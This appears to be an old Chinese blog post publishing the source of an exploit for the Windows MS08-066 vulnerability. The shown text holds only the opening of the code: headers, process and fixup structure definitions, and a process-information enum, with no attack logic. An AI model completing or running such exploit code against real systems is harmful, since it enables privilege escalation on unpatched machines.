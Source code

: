 ```yaml
---
title: ms08-066 Exploit
description: ms08-066Exploit#include<stdio.h>#include<winsock2.h>#include<windows.h>......
date: 2008-10-17 09:13:32
category: 漏洞信息
tags: ['漏洞信息', 'exploit']
post_id: 645
alias: ms08-066-Exploit
ViewNums: 3654
---
```


[**ms08-066 Exploit**](/blog/ms08-066-exploit)

#include <stdio.h>
#include <winsock2.h>
#include <windows.h>

#pragma comment(lib, "ws2_32.lib")

#define NTSTATUS        int

typedef struct _PROCESS_BASIC_INFORMATION {
NTSTATUS ExitStatus;
PVOID PebBaseAddress;
ULONG AffinityMask;
ULONG BasePriority;
ULONG UniqueProcessId;
ULONG InheritedFromUniqueProcessId;
} PROCESS_BASIC_INFORMATION, *PPROCESS_BASIC_INFORMATION;

typedef struct _IMAGE_FIXUP_ENTRY {
USHORT        Offset:12;
USHORT        Type:4;
} IMAGE_FIXUP_ENTRY, *PIMAGE_FIXUP_ENTRY;

typedef enum _PROCESS_IMFORMATION_CLASS {
ProcessBasicInformation,
ProcessQuotaLimits,
ProcessIoCounters,
ProcessVmCounters,
ProcessTimes,
ProcessBasePriority,
ProcessRaisePriority,
ProcessDebugPort,
ProcessExceptionPort,
ProcessAccessToken,
ProcessLdtInformation,
ProcessLdtSize,
ProcessDeaultHardErrorMode,
ProcessIoPortHandlers,
ProcessPooledUsageAndLimits,
ProcessWorkingSetWatch,
ProcessUserModeIOPL,
ProcessEnableAlignmentFaultFixup,
ProcessPriorityClass,
ProcessWx86Information,
ProcessHandleCount,
ProcessAffinityMask,
ProcessPriorityBoost,
ProcessDeviceMap,
ProcessSessionInformation,
ProcessForegroundInformation,
ProcessWow64Information
} PROCESS_INFORMATION_CLASS;
